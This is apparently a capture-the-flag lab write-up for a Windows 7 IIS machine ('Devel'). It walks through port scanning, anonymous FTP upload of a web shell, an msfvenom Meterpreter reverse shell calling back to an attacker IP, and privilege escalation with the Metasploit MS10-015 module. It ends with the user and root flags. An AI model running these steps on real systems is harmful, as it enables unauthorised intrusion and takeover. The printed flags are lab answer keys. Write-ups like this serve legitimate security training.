# Scanning

## Rustscan

- Ports Scan using rustscan



```bash
_______________________________________                                                      
 http://discord.skerritt.blog         :                                                      
 https://github.com/RustScan/RustScan :                                                      
--------------------------------------                                                       
Scanning ports faster than you can say 'SYN ACK'                                                                    
~] The config file is expected to be at "/home/kali/.rustscan.toml"                          
~] File limit higher than batch size. Can increase speed by increasing batch size '-b 924'.  

open 10.10.10.5:21
open 10.10.10.5:80                                                                            
```

## Nmap

```bash
nmap -sC -sV -T5 -A -p21,80 -oA nmap/initials 10.10.10.5
```

```bash
# Nmap 7.94SVN scan initiated Fri May 16 01:17:17 2025 as: nmap -sC -sV -T5 -A -p21,80 -oA nmap/initials 10.10.10.5
Nmap scan report for 10.10.10.5 (10.10.10.5)
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 16 01:17:37 2025 -- 1 IP address (1 host up) scanned in 20.13 seconds
```

- Based on the scan results, only IIS Web Server and FTP services are running on the target, with no other open ports detected.
- The target is running Windows with Microsoft IIS 7.5 web server.
- FTP is running on port 21 with anonymous login enabled.
- HTTP is running on port 80 serving a default IIS 7.5 page.

# Enumeration

- FTP is accessible using simple credentials: `user:anonymous` and `password:<blank>` login.



- Downloaded all available files using the following commands to analyze their contents:

```bash
wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/aspnet_client/*  

wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/iisstart.htm 

wget -r -l 10 --ftp-user='anonymous' --ftp-password='' ftp://10.10.10.5/welcome.png
```

- Initial analysis revealed no immediately useful information from these files.
- Performed directory brute forcing with multiple tools and wordlists:

```bash
# Used multiple wordlists for thorough enumeration
https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Discovery/Web-Content/Web-Servers/IIS.txt

/usr/share/dirb/wordlists/common.txt

/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

- Directory brute forcing yielded no additional interesting directories or files.
- Critical discovery: FTP upload directory appears to be the same as the web root directory. This means files uploaded via FTP would be accessible through the web server.
- This configuration presents a significant vulnerability as we can upload an ASP.NET web shell through FTP and then execute it via the web server.

# Exploitation






- Successfully confirmed access via basic web shell.
- For improved post-exploitation capabilities, generated a Meterpreter shell using:

## Metasploit Stuff

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
  LHOST=10.10.16.10 LPORT=1337 \
  -f aspx \
  -o msf_shell.aspx
```

- Transferred the payload to the victim machine via FTP.
- Set up a Metasploit handler to receive the incoming connection.
- Triggered the payload by accessing it through the web server.





# Post Exploitation

## Again Metasploit Stuff

- Used the exploit suggester module to identify potential privilege escalation vectors:

```bash
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```



- Selected the MS10-015 (KiTrap0d) privilege escalation exploit:



```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set lhost 10.10.16.10
run
```

- **MS10-015 (KiTrap0d) Vulnerability Background**: MS10-015/CVE-2010-0232 exploits a kernel vulnerability in Windows' Virtual DOS Machine subsystem that improperly handles 16-bit system calls, allowing manipulation of kernel-mode memory. The flaw exists in win32k.sys where the kernel mishandles exceptions during system call processing, enabling attackers to execute arbitrary code with SYSTEM privileges by triggering a controlled exception that corrupts kernel stack pointers. This vulnerability affects multiple Windows versions including Windows 7, which explains its effectiveness on the Devel machine.

- [More On This...............](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-015/CVE-2010-0232.txt)



- Successfully escalated privileges to NT AUTHORITY\SYSTEM, giving complete control over the target system.



- Located and retrieved both user and root flags:



- User Flag:

```lua
d356b7b47e9b90cfd11c33d16bcc30d8
```

- Root Flag:

```lua
1db38188c79211dbcbf76001749afe01
```